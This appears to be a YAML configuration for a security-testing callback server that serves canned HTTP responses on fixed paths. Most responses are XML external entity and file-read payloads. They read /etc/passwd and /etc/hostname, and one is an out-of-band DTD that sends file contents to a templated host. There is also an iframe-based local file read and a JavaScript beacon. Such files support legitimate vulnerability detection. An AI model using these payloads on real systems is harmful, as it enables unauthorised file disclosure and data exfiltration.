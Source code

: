```yaml
---
title: Inspect
description: Reflect back HTTP requests in various formats
weight: 1
payloads:
  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /dt$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c?xml version=\"1.0\" encoding=\"ISO-8859-1\"?\u003e\\n \u003c!DOCTYPE foo [  \u003c!ELEMENT foo ANY \u003e \u003c!ENTITY xxe SYSTEM \"http://{{ .Host }}/{{ .AlertPattern }}/xxe-test\" \u003e]\u003e\u003cfoo\u003e\u0026xxe;\u003c/foo\u003e"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /evil\.dtd$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c!ENTITY % payl SYSTEM \"file:///etc/passwd\"\u003e\\n\u003c!ENTITY % int \"\u003c!ENTITY % trick SYSTEM ''http://{{ .Host }}:80/{{ .AlertPattern }}/xxe?p=%payl;''\u003e\"\u003e"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /hello$
    data: '{"headers":{"Content-Type":"application/json"},"body":"{\"data\":\"hello world\"}"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /ht$
    data: '{"headers":{"Content-Type":"text/html"},"body":"\u003chtml\u003e\u003cbody\u003e\u003cimg src=\"{{.AlertPattern}}/static-lh\" /\u003e\u003ciframe src=\"file:///etc/passwd\" height=\"500\"\u003e\u003c/iframe\u003e\u003c/body\u003e\u003c/html\u003e"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /js$
    data: '{"headers":{"Content-Type":"text/javascript"},"body":"var s = document.createElement(\"img\");document.body.appendChild(s); s.src=\"//{{ .Host }}/{{.AlertPattern}}/s\";"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /sh$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c?xml version=\"1.0\" standalone=\"yes\"?\u003e\\n\u003c!DOCTYPE test [ \u003c!ENTITY xxe SYSTEM \"file:///etc/hostname\" \u003e ]\u003e\\n\u003csvg width=\"128px\" height=\"128px\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" version=\"1.1\"\u003e\\n\u003ctext font-size=\"16\" x=\"0\" y=\"16\"\u003e\u0026xxe;\u003c/text\u003e\\n\u003c/svg\u003e"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /sv$
    data: '{"headers":{"Content-Type":"image/svg+xml"},"body":"\u003c?xml version=\"1.0\" standalone=\"yes\"?\u003e\u003c!DOCTYPE ernw [ \u003c!ENTITY xxe SYSTEM \"file:///etc/passwd\" \u003e ]\u003e\u003csvg width=\"500px\" height=\"100px\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" version=\"1.1\"\u003e\u003ctext font-family=\"Verdana\" font-size=\"16\" x=\"10\" y=\"40\"\u003e\u0026xxe;\u003c/text\u003e\u003c/svg\u003e"}'
---
```


Depends on an internal code